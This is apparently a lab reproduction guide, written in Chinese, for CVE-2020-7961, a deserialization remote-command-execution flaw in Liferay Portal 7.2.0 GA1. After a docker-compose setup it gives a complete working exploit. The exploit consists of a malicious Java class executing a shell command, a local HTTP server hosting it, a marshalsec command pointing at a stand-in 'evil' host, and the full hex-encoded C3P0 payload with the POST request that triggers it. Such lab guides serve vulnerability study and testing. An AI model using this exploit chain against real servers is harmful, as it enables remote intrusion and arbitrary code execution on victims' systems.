



# Liferay Portal CE 反序列化命令执行漏洞（CVE-2020-7961）

Liferay Portal CE是一款用来快速构建网站的开源系统。其7.2.0 GA1及以前的版本API接口中存在一处反序列化漏洞，利用该漏洞可在目标服务器上执行任意命令。

参考链接：

- https://codewhitesec.blogspot.com/2020/03/liferay-portal-json-vulns.html
- https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Liferay%20Portal%20CVE-2020-7961%20%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/
- https://xz.aliyun.com/t/7499
- https://xz.aliyun.com/t/7485

## 漏洞环境

执行如下命令启动Liferay Portal 7.2.0 GA1：

```
docker-compose up -d
```

启动成功后，访问`http://your-ip:8080`即可查看到默认首页。如果环境一直没有成功启动，可能是内存不足，请使用至少2G内存的服务器运行这个环境。

## 漏洞复现

首先准备一个恶意的Java类，编译：

```java
// javac LifExp.java
public class LifExp {

static {
    try {
            String[] cmd = {"bash", "-c", "touch /tmp/success"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

在保存着class文件的目录下运行一个HTTP文件服务：

```
$ ls
LifExp.class  LifExp.java

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

因为目标Java版本较高，我们使用利用链是com.mchange.v2.c3p0.WrapperConnectionPoolDataSource，借助[marshalsec](https://github.com/mbechler/marshalsec)来生成一个适用于Jackson的POC：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Jackson C3P0WrapperConnPool http://evil/ LifExp
```

其中，`http://evil/`是刚才启动的保存了恶意class文件的Web服务，LifExp是恶意类名。



生成的Payload是Jackson使用的，我们只需按照Liferay Portal的形式，即`+参数名:类名=值`，来修改这个Payload：

```
+defaultData:com.mchange.v2.c3p0.WrapperConnectionPoolDataSource={"userOverridesAsString":"HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400064c6966457870740017687474703a2f2f3137322e31372e302e313a383030302f740003466f6f;"}
```

将上述Payload合并到HTTP请求中发送：

```
POST /api/jsonws/invoke HTTP/1.1
Host: your-ip:8080
Content-Length: 1346
Content-Type: application/x-www-form-urlencoded
Connection: close

cmd=%7B%22%2Fexpandocolumn%2Fadd-column%22%3A%7B%7D%7D&p_auth=o3lt8q1F&formDate=1585270368703&tableId=1&name=2&type=3&%2BdefaultData:com.mchange.v2.c3p0.WrapperConnectionPoolDataSource={"userOverridesAsString":"HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400064c6966457870740017687474703a2f2f3137322e31372e302e313a383030302f740003466f6f;"}
```



进入容器中查看，发现已经成功执行`touch /tmp/success`：


